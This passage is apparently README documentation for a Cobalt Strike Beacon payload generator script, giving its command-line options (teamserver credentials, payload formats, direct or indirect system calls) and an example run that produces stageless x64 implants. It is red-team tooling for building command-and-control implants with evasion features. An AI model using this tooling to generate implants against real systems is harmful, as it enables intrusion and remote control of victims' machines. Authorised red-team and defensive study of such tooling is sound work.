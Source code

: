 ```
sleepmask.x86.o
```

#### Usage (additional options for 4.8)

Thanks to a recent update provided by @mgeeky the payloadgenerator.py script now supports additional arguments to support new artifact_payload function parameters added in 4.8.  With these arguments you now have more control over what payloads are generated.

```
$ python3 payloadgenerator.py --help
------------------------
Beacon Payload Generator
------------------------
usage: payloadgenerator.py [-h] [-o path] [-l name] [-a arch] [-t types] [-e exit] [-c method] host port username password path

positional arguments:
  host                  The teamserver host.
  port                  The teamserver port.
  username              The desired username.
  password              The teamserver password.
  path                  Directory to CobaltStrike

optional arguments:
  -h, --help            show this help message and exit

optional parameters:
  -o path, --payload-path path
                        Where to save generated payloads. Default: output/payloads/
  -l name, --listener name
                        Specify listener name to get payloads for. Default: payloads for all listeners will be produced
  -a arch, --arch arch  Specify payload architecture. Choices: x86, x64. Default: payloads for both are generated
  -t types, --payload-types types
                        Comma separated list of payload types to generate keyed by file extensions. Choices: exe,dll,svc.exe,bin,ps1,py,vbs or use 'all' to compile all at once.
                        Default: exe,dll,bin
  -e exit, --exit exit  Payload exit method. Choices: thread, process. Default: process
  -c method, --call-method method
                        System call method. Choices: indirect, direct, none. Default: <empty> (backwards compatible with Cobalt pre 4.8)
```

#### Examples

```
$python3 payloadgenerator.py 127.0.0.1 50050 payloads password /path/to/cobaltstrike -o /share/payloads/ -c indirect -a x64
------------------------
Beacon Payload Generator
------------------------
[*] Connecting to teamserver: 127.0.0.1
Loading cna scripts from ./payload_scripts

Scripts
-------
arsenal_kit.cna
console.cna

[*] Creating stageless payloads for listener: http1
[*] Creating http1.x64.exe
[*] Creating http1.x64.dll
[*] Creating http1.x64.bin
```